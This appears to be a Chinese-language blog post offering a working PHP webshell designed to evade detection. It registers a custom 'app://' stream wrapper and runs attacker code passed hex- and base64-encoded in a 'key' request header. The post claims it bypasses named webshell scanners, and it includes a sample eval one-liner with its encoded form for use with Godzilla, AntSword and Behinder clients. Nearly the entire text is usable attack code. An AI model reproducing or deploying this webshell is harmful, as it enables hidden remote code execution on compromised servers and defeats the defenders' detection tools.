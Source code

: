 ```yaml
---
title: php流包装免杀webshell
date: 2024-07-23 11:43:16
---
```


## webshell免杀（php）

2024.07.13

理论支持通杀所有PHP版本。

支持哥斯拉、蚁剑、冰蝎。

绕过长亭百川云Webshell引擎、河马webshell查杀引擎、D盾查杀。

使用方法：

添加自定义头：key=xxx

其中xxx是上述马子的base64编码再hex编码。

例如：

<?php @eval($_POST['cmd']);?>

经base64编码以及hex编码后：

5044397761484167514756325957776f4a46395154314e555779646a6257516e58536b37507a343d

连接时添加自定义头：

key: 5044397761484167514756325957776f4a46395154314e555779646a6257516e58536b37507a343d

<?php  
​  
# base64->hex  
# 把需要连接的webshell进行base64编码再hex编码，然后连接时，自定义请求头加上key: xxx(编码后的webshell)  
      
$header = "key";  
​  
function app() {  
    include 'app://config.yaml';  
}  
​  
function hex2str($hex_str) {  
    if (strlen($hex_str) % 2 != 0) {  
        echo "error";  
        return false;  
    }  
    $str = '';  
    for ($i = 0; $i < strlen($hex_str); $i += 2) {  
        $str .= chr(hexdec($hex_str[$i] . $hex_str[$i+1]));  
    }  
    return $str;  
}  
​  
class Stream {  
    private $position;  
    private $code;  
​  
    public function stream_open($path, $mode, $options, &$opened_path) {  
        $url = parse_url($path);  
        $this->code = $GLOBALS[$url["host"]];  
        $this->position = 0;  
        return true;  
    }  
​  
    public function stream_read($count) {  
        $result = substr($this->code, $this->position, $count);  
        $this->position += strlen($result);  
        return $result;  
    }  
​  
    public function stream_eof() {  
        return $this->position >= strlen($this->code);  
    }  
​  
    public function stream_stat() {  
        return "";  
    }  
}  
​  
​  
stream_wrapper_register("app", "Stream") or die("error!");  
$stream = @base64_decode(hex2str($_SERVER["HTTP_".strtoupper($header)]));  
$GLOBALS['config.yaml'] = $stream;  
​  
@app();
